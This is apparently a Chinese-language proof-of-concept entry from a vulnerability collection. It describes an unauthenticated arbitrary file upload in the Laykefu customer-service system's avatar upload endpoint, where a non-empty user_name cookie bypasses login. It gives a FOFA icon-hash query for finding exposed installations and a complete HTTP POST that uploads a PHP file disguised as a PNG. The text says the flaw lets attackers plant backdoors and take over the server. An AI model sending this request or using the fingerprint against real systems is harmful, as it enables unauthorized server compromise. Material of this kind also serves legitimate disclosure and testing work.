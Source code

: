 ## Laykefu客服系统任意文件上传漏洞

Laykefu客服系统/admin/users/upavatar.html接口处存在文件上传漏洞，而且当请求中Cookie中的”user_name“不为空时即可绕过登录系统后台，未经身份验证的攻击者可利用此问题，上传后门文件，获取服务器权限。

## fofa
```
icon_hash="-334624619"
```

## poc
```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```
![44dcbdbc80e1e61fca16aff0516cf6c0](../../images/414797a3-6eb4-4466-a79e-9806adf1c8be.png)

![d0aeeb4590a1dd0ce9402db1a7888177](../../images/ad84b8aa-5358-4fb1-881c-edda45b69eb1.png)
